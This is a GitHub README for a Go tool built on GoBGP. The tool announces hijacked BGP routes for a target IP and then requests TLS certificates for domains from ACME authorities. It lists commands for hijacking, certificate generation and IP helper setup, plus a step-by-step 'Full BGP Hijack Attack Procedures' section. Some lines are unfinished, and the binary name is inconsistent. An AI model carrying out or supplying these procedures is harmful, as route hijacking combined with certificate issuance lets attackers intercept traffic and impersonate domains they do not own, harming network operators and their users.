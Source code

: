 # BGP-ATE

A tool for BGP route manipulation and certificate generation.

## Features

- BGP route manipulation
- Certificate generation with various 
- IP helper route management
- Support for both standard and large communities
- External Account Binding (EAB) support

## Prerequisites

- Go 1.21 or later
- GoBGP v3.37.0 or later

## Installation

1. Install GoBGP:
```bash
# Make the setup script executable
chmod +x setup.sh

# Run the setup script
./setup.sh

# Add gobgpbin to your PATH (optional)
export PATH="$(pwd)/gobgpbin:$PATH"
```

2. Install the BGP control system:
```bash
go build
```

## Usage

1. Start the GoBGP daemon:
```bash
sudo gobgpbin/gobgpd -f gobgpd.conf
```
2. Run the control system:
```bash
./bgpaite
```

## Configuration

The system uses `gobgpd.conf` for GoBGP configuration and `config.json` file for configuration. Here's an example:

```json
{
    "communities": ["large:18041:999:2"],
    "time": 10,
    "timeBeforeGeneratingCertificate": 5,
    "iphelperDst": ["172.65.32.248", "1.1.1.1"],
    "iphelperGateway": "192.168.99.1",
    "caDirUrl": "https://acme-v02.api.letsencrypt.org/directory",
    "eabKid": "",
    "eabHmacKey": ""
}
```

### Configuration Options

- `communities`: List of BGP communities (standard or large format)
  - Standard format: `"AS:value"` (e.g., `"65000:123"`)
  - Large format: `"large:AS:value1:value2"` (e.g., `"large:18041:999:2"`)
- `time`: Time in seconds to wait after hijacking
- `timeBeforeGeneratingCertificate`: Time in seconds to wait before generating certificate
- `iphelperDst`: List of destination IPs for iphelper command
- `iphelperGateway`: Gateway IP for iphelper command (optional, will use interface's default gateway if not specified)
- `caDirUrl`: ACME CA directory URL (optional, defaults to Let's Encrypt production)
- `eabKid`: External Account Binding Key ID (optional)
- `eabHmacKey`: External Account Binding HMAC Key (optional)

### CA Directory URLs

The `caDirUrl` field supports different ACME CA servers:

1. Let's Encrypt Production:
```json
"caDirUrl": "https://acme-v02.api.letsencrypt.org/directory"
```

2. Buypass:
```json
"caDirUrl": "https://api.buypass.com/acme/directory"
```

3. Google Public CA
```json
"caDirUrl": "https://dv.acme-v02.api.pki.goog/directory"
```
use `gcloud publicca external-account-keys create` to generate eabKid & eabHmacKey.

4. ZeroSSL
```json
"caDirUrl": "https://acme.zerossl.com/v2/DV90"
```

If `caDirUrl` is not specified, the tool will use Let's Encrypt's production server by default.

## Usage

### Building
```bash
go build
```

### Clear Routes
```bash
./bgpate clear
```

### Hijack Routes
```bash
./bgpate hijack <ip> [--dryrun]
```

### Generate Certificate
```bash
./bgpate certgen <domain> [--dryrun]
```

### IP Helper
```bash
./bgpate iphelper <ip> <interface> [-d]
```

## Full BGP Hijack Attack Procedures

1. Run 
```bash
./bgpate iphelper <ip> <interface>
```

2. 
```bash
./bgpate hijack <ip>
```

3. Run curl to confirm the hijacking is success
```
curl --interface 1.172.110.76 https://1.1.1.1/cdn-cgi/trace
```

4. Remove IP configuration on the system
```bash
./bgpate iphelper <ip> <interface> -d
```

## Full Certification Generating Attack Procedures
TBD

## Notes

- The tool will automatically clean up routes when interrupted (Ctrl+C)
- For certificate generation, make sure port 80 is available for HTTP-01 challenge
- When using EAB, both `eabKid` and `eabHmacKey` must be provided


